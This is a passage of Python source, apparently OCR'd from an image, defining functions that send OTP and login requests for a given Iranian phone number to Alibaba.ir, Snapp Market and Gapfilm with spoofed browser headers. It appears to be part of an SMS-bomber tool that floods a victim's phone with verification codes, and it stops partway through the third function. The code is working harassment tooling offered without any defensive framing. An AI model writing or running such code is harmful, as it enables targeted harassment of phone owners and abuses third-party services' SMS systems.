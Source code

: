 def alibaba(phone):
    alibabaH = {"Host": "ws.alibaba.ir","User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0","Accept": "application/json, text/plain, */*","Accept-Language": "en-US,en;q=0.5","Accept-Encoding": "gzip, deflate, br","ab-channel": "WEB,PRODUCTION,CSR,WWW.ALIBABA.IR","ab-alohomora": "MTMxOTIzNTI1MjU2NS4yNTEy","Content-Type": "application/json;charset=utf-8","Content-Length": "29","Origin": "https://www.alibaba.ir","Connection": "keep-alive","Referer": "https://www.alibaba.ir/hotel"}
    alibabaD = {"phoneNumber":"0"+phone.split("+98")[1]}
    try:
        alibabaR = post(timeout=5, url='https://ws.alibaba.ir/api/v3/account/mobile/otp', headers=alibabaH, json=alibabaD ).json()
        if alibabaR["result"]["success"] == True:
            print(f'{g}(AliBaba) {w}Code Was Sent')
            return True
    except:
        pass

def smarket(phone):
    smarketU = f'https://api.snapp.market/mart/v1/user/loginMobileWithNoPass?cellphone=0{phone.split("+98")[1]}'
    smarketH = {'accept': '*/*',
'accept-encoding': 'gzip, deflate, br',
'accept-language': 'en-US,en;q=0.9',
'content-type': 'text/plain;charset=UTF-8',
'origin': 'https://snapp.market',
'referer': 'https://snapp.market/',
'user-agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36 OPR/82.0.4227.33'}
    try:
        smarketR = post(timeout=5, url=smarketU, headers=smarketH).json()
        if smarketR['status'] == True:
            print(f'{g}(SnapMarket) {w}Code Was Sent')
            return True
    except:
        pass
    
def gapfilm(phone):
    gaJ = {
    "Type": 3,
    "Username": phone.split("+98")[1],
    "SourceChannel": "GF_WebSite",
    "SourcePlatform": "desktop",
    "SourcePlatformAgentType": "Opera",
    "SourcePlatformVersion": "82.0.4227.33",
    "GiftCode": None
}
    gaU = 'https://core.gapfilm.ir/api/v3.1/Account/Login'
    gaH = {'Accept': 'application/json, text/plain, */*',
'Accept-Encoding': 'gzip, deflate, br',
'Accept-Language': 'fa',
'Browser': 'Opera',
'BrowserVersion': '82.0.4227.33',
'Connection': 'keep-alive',
'Content-Type': 'application/json',
'Host': 'core.gapfilm.ir',
'IP': '185.156.172.170',
'Origin': 'https://www.gapfilm.ir',
'OS': 'Linux',
'Referer': 'https://www.gapfilm.ir/',
'SourceChannel': 'GF_WebSite',
'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36 OPR/82.0.4227.33'}
    try:
        gaR = post(timeout=5, url=gaU, headers=gaH, json=gaJ).json()